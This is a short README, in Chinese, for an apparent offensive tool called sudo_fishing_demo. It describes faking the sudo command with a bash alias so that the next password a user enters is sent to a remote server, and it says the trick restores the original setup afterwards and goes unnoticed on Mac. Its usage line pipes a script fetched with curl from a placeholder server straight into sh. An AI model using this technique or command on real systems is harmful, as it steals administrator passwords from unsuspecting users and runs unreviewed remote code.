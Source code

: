 # sudo_fishing_demo

通过alias伪造sudo命令进行钓鱼。用户下一次输入密码时，密码将发送到远端服务器。
纯bash实现，命令行交互完全模型真实情况，成功后自动恢复原配置，Mac下无感。

## Demo
![video](http://static.cdxy.me/sudo%E9%92%93%E9%B1%BCdemo_1.mov)

## Usage
`curl http://your_file_server/find_sh.sh | sh`

